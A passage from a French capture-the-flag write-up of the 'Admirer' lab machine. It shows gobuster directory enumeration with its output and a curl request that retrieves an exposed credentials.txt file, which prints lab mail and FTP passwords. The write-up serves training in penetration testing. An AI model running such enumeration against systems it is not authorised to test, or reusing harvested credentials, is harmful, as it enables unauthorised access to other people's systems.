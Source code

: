 ```
#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

Je pousse encore l'énumération web avec une liste de fichier plus importante.

```
kali@kali:~$ gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 80 -a Linux -x .txt,.php,.bak,.old
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.187/admin-dir
[+] Threads:        80
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     Linux
[+] Extensions:     txt,php,bak,old
[+] Timeout:        10s
===============================================================
2020/06/05 09:15:21 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/contacts.txt (Status: 200)
/credentials.txt (Status: 200)
```

Les secrets sont là dans credentials.txt ! Mauvaise idée :-)

```
kali@kali:~$ curl -i http://10.10.10.187/admin-dir/credentials.txt
HTTP/1.1 200 OK
Date: Fri, 05 Jun 2020 13:17:14 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Wed, 29 Apr 2020 09:11:31 GMT
ETag: "88-5a46a5583b1c0"
Accept-Ranges: bytes
Content-Length: 136
Vary: Accept-Encoding
Content-Type: text/plain

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

```
